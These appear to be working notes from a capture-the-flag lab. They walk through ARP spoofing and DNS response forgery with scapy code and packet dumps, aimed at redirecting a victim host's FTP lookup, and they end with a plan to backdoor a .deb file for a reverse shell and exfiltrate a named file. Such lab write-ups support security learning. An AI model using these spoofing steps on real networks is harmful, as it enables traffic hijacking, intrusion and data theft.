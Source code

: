 Host 10.6.6.35 is attacker controlled. Get command line access.
Pingable from main host
	* Have network connectivity


	Local network is 10.6.0.3/16 so we have direct L2 connectivity to the attacker server


	# Sample provided scripts
	arp_res.py
		* Comments in the script indicate that we need to construct a ARP response to steer traffic to our host
	dns_res.py
		* Comments in the script indicate that we need to construct a DNS response to steer traffic either to our host or another host.

	
	# Sample packet captures - Can use these to extract the full ARP fields if needed.

	ARP Request looking for IP address 10.10.10.1
    		1   0.000000 cc:01:10:dc:00:00 → ff:ff:ff:ff:ff:ff ARP 60 Who has 10.10.10.1? Tell 10.10.10.2
    ARP Reply responding with with MAC for IP 10.10.10.1
		    2   0.031000 cc:00:10:dc:00:00 → cc:01:10:dc:00:00 ARP 60 10.10.10.1 is at cc:00:10:dc:00:00

	DNS Request - tshark
		    1   0.000000 192.168.170.8 → 192.168.170.20 DNS 74 Standard query 0x75c0 A www.netbsd.org
	DNS Response - tshark
		    2   0.048911 192.168.170.20 → 192.168.170.8 DNS 90 Standard query response 0x75c0 A www.netbsd.org A 204.152.190.12


	They say to capture without name resolution otherwise it will hang
	tshark -nnr arp.pcap
	tcpdump -nnr arp.pcap

	-r is for read only need the -nn for host and port numberes

	Capturing on the interface (eth0) on the host we see that the attacker is arping for a MAC for 10.6.6.53.

	```
	guest@4e6ce9945b36:~$ tcpdump -nn -i eth0 arp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
01:19:44.513407 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:45.545516 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:46.589695 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:47.629401 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:48.673522 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
```

Doing some basic thinking, the `.53` here means it is a DNS server and its arping to do a name resolution to do an http GET which will serve out some reverse shell payload we want, or something like that.

Step 1 - Getting the arp response correct
ARP format details here: http://www.tcpipguide.com/free/t_ARPMessageFormat.htm

Incoming Request:
###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = who-has
  hwsrc     = 4c:24:57:ab:ed:84
  psrc      = 10.6.6.35
  hwdst     = 00:00:00:00:00:00
  pdst      = 10.6.6.53

 Response Should be:
 ###[ ARP ]### 
  hwtype    = 0x2	---
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at (0x02) --
  hwsrc     = 02:42:0a:06:00:03 --
  psrc      = 10.6.6.53 --
  hwdst     = 4c:24:57:ab:ed:84 --
  pdst      = 10.6.6.35 --

Sample constructed with the following code
```python
if __name__ == "__main__":
    a = ARP(pdst="10.6.6.35")

    a.op = 2 # arp reply
    a.plen = 4
    a.hwlen = 6
    a.ptype = 2048
    a.hwtype = 1
    a.hwsrc = "02:42:0a:06:00:03"
    a.psrc = "10.6.0.3"
    a.pdst = "10.6.6.35"
    a.hwdst = "4c:24:57:ab:ed:84"
    a.show()
```
```bash
###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at
  hwsrc     = 02:42:0a:06:00:03
  psrc      = 10.6.0.3
  hwdst     = 4c:24:57:ab:ed:84
  pdst      = 10.6.6.35
```


Success, DNS request is:
02:43:13.857797 IP 10.6.6.35.57847 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
        0x0000:  4500 003c 0001 0000 4011 5a4d 0a06 0623  E..<....@.ZM...#
        0x0010:  0a06 0635 e1f7 0035 0028 5866 0000 0100  ...5...5.(Xf....
        0x0020:  0001 0000 0000 0000 0366 7470 066f 7375  .........ftp.osu
        0x0030:  6f73 6c03 6f72 6700 0001 0001            osl.org.....
02:43:13.866331 IP 10.6.6.53.53 > 10.6.6.35.52687: 0- 1/0/0 A 10.6.0.3 (62)
        0x0000:  4500 005a 0001 0000 4011 5a2f 0a06 0635  E..Z....@.Z/...5
        0x0010:  0a06 0623 0035 cdcf 0046 3e9d 0000 8100  ...#.5...F>.....
        0x0020:  0001 0001 0000 0000 0366 7470 066f 7375  .........ftp.osu
        0x0030:  6f73 6c03 6f72 6700 0001 0001 0366 7470  osl.org......ftp
        0x0040:  066f 7375 6f73 6c03 6f72 6700 0001 0001  .osuosl.org.....
        0x0050:  0000 0000 0004 0a06 0003                 ..........

From the capture, it looks like the victim is trying to resolve an FTP server. So, we'll serve them a DNS record pointing back to the attacker (us) and wait for the FTP connection next.

UDP packet received
###[ Ethernet ]### 
  dst       = 02:42:0a:06:00:04
  src       = 4c:24:57:ab:ed:84
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 60
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x5a4d
     src       = 10.6.6.35
     dst       = 10.6.6.53
     \options   \
###[ UDP ]### 
        sport     = 34972
        dport     = domain
        len       = 40
        chksum    = 0xb1c1
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None


DNS Sample Response
###[ DNS ]###
  id        = 0				//set from packet
  qr        = 1				//?
  opcode    = QUERY  		//?
  aa        = 0				//?
  tc        = 0				//?
  rd        = 1				//?
  ra        = 1				//set to 1
  z         = 0				//?
  ad        = 0				//?
  cd        = 0				//?
  rcode     = ok			//?
  qdcount   = 1				// set to 1 - query record from the request
  ancount   = 5				// set to 1
  nscount   = 0				//?
  arcount   = 0				//?
  \qd        \
   |###[ DNS Question Record ]###
   |  qname     = 'www.thepacketgeek.com.'
   |  qtype     = A
   |  qclass    = IN
  \an        \
   |###[ DNS Resource Record ]###
   |  rrname    = 'www.thepacketgeek.com.'
   |  type      = CNAME
   |  rclass    = IN
   |  ttl       = 299
   |  rdlen     = None
   |  rdata     = 'thepacketgeek.github.io.'
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.108.153
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.109.153
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.110.153
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.111.153
  ns        = None
  ar        = None



.###[ Ethernet ]### 
  dst       = 02:42:0a:06:00:02
  src       = 4c:24:57:ab:ed:84
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 60
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x5a4d
     src       = 10.6.6.35
     dst       = 10.6.6.53
     \options   \
###[ UDP ]### 
        sport     = 58168
        dport     = domain
        len       = 40
        chksum    = 0x5725
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None

.###[ Ethernet ]### 
  dst       = 4c:24:57:ab:ed:84
  src       = 02:42:0a:06:00:02
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = None
     tos       = 0x0
     len       = None
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = None
     src       = 10.6.6.53
     dst       = 10.6.6.35
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = 33298
        len       = None
        chksum    = None
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 1
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           \an        \
            |###[ DNS Resource Record ]### 
            |  rrname    = 'ftp.osuosl.org.'
            |  type      = A 
            |  rclass    = IN
            |  ttl       = 0
            |  rdlen     = None
            |  rdata     = '10.6.0.2'
           ns        = None
           ar        = None



So it worked - Issue i had was I was providing a CNAME which actually caused it to crash background.py

After running the test, it showed that the next step was to go to port 80 and likely request a website. Can figure out the git request using `server.http`.

Now, we need, it appears to backdoor a deb file to get a reverse shell on the machine, or open a bind shell

The request is being executed via curl (user agent).

The file to exfil is at: /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt.
